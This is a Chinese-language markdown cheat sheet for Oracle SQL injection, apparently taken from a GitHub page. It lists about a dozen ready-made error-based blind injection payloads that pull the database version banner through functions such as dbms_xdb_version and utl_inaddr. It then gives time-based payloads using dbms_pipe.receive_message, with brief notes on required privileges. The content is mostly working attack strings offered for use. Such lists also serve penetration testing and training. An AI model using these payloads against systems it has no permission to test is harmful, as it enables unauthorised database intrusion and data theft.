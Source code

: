 - 报错型盲注：

  ```sql
  and (select dbms_xdb_version.checkin((select banner from sys.V_$version where rownum=1)) from dual) is not null-- 
  
  and (select dbms_xdb_version.makeversioned((select banner from sys.V_$version where rownum=1)) from dual) is not null-- 
  
  and (select dbms_xdb_version.uncheckout((select banner from sys.V_$version where rownum=1)) from dual) is not null-- 
  
  and (select dbms_utility.sqlid_to_sqlhash((select banner from sys.V_$version where rownum=1)) from dual) is not null-- 
  
  and (select dbms_streams.get_information((select banner from sys.V_$version where rownum=1)) from dual) is not null-- 
  
  and (select dbms_xmlschema.generateschema((select banner from sys.V_$version where rownum=1)) from dual) is not null-- 
  
  and (select dbms_xmltranslations.extractxliff((select banner from sys.V_$version where rownum=1)) from dual) is not null-- 
  
  and 1=ordsys.ord_dicom.getmappingxpath((select banner from sys.v_$version where rownum=1),user,user)-- 
  
  and 1=utl_inaddr.get_host_name((select banner from sys.v_$version where rownum=1))-- 
  
  and 1=ctxsys.drithsx.sn(1,(select banner from sys.v_$version where rownum=1))-- 
  
  and (select upper(XMLType(chr(60)||chr(58)||(select banner from sys.v_$version where rownum=1)||chr(62))) from dual) is not null-- 
  ```

##### 时间盲注：

- DBMS_PIPE.RECEIVE_MESSAGE()函数

  **延时盲注dbms_lock_sleep()函数可以让一个过程休眠很多秒，但使用该函数存在许多限制。**

  **首先，不能直接将该函数注入子查询中，因为Oracle不支持堆叠查询。**

  **其次，只有数据库管理员才能使用dbms_lock包。**

  ```sql
  在Oracle PL/SQL中可以使用下面的指令以内联方式注入延迟：
  dbms_pipe.receive_message('RDS',10)
  dbms_pipe.receive_message()函数将为从RDS管道返回的数据等待10秒。默认情况下，允许以public权限执行该包
  dbms_lock_sleep()与之相反，它是一个可以用在SQL语句中的函数。
  
  or 1=dbms_pipe.receive_message('RDS',10)-- 
  and 1=dbms_pipe.receive_message('RDS',10)-- 
  ```
